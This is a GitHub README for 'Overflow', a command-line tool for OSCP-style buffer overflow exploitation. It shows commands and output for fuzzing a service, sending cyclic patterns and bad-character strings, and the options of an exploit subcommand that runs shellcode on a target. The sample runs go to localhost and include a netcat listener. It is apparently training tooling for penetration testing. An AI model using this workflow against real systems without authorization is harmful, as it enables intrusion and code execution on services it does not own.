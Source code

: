 # Overflow
A command-line tool for exploiting OSCP-like buffer overflows.

## 1. Installation
```sh
$ git clone https://github.com/sradley/overflow.git
$ cd overflow
$ cabal update
$ cabal install
```

## 2. Usage
The help menu is pretty exhaustive, if you're stuck you should give it a look.

```sh
$ overflow --help
...
```
```sh
$ overflow <subcommand> --help
...
```

### 2.1. Fuzzing
You can use this tool to discover the length of the target buffer.

The fuzz subcommand will send increasingly long (size specified by the step
parameter) bytestrings comprised of As (0x41). When the server stops responding
the fuzzer assumes that it has reached a buffer overflow and reports the
possible length of the buffer.

```
$ overflow fuzz 127.0.0.1 4444 -S 100
    ───> Sending 100-byte payload to target...
    ───> Sending 200-byte payload to target...
    ───> Sending 300-byte payload to target...
    ───> Sending 400-byte payload to target...
    ───> Sending 500-byte payload to target...
Done! Length of buffer is in the range (400, 500].
```

### 2.2. Sending a Cyclic Pattern
You can use this tool to send a cyclic pattern of bytes to the server. Great
for discovering offsets of particular registers.

The pattern subcommand will generate and send a specified length cyclic pattern
of bytes to the target server, however, figuring out the offset to the EIP
register (for example) is up to you. 

```
$ overflow pattern 127.0.0.1 4444 -l 80
    ───> Sending 80-byte cyclic pattern to target.
Success! Finished sending pattern to target
```

```
$ nc -lvp 4444
Connection from 127.0.0.1:48870
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```

### 2.3. Finding Bad Characters
You can use this tool to send every character from 0x00 to 0xFF to the target
service. It's only real use is to discover bad characters (e.g. characters that
the service treats differently in execution).

The badchars subcommand will generate and send a bytestring consisting of every
possible character to the target service. However, determining which characters
are bad is up to you.

```
$ overflow badchars 127.0.0.1 4444 -o 160
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

You can also exclude particular characters from the payload sent to the target.
```
$ overflow badchars 127.0.0.1 4444 -o 160 -e "\x00\x05\x1A"
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

### 2.4. Running an Exploit
```sh
$ overflow exploit --help
```
```
Usage: overflow exploit HOST PORT (-o|--offset OFFSET) (-a|--address ADDRESS)
                        (-p|--payload PAYLOAD) [-p|--prefix PREFIX] 
                        [-s|--suffix SUFFIX]
  Attempts to execute a specified payload on target

Available options:
  HOST                     Target machine's IP address
  PORT                     Port the target service is running on
  -o,--offset OFFSET       The offset of the EIP register
  -a,--address ADDRESS     Jump address for executing shellcode
  -p,--payload PAYLOAD     Payload to be executed on target
  -p,--prefix PREFIX       (optional) Prefix to put before payload
  -s,--suffix SUFFIX       (optional) Suffix to put after payload
  -h,--help                Show this help text
```
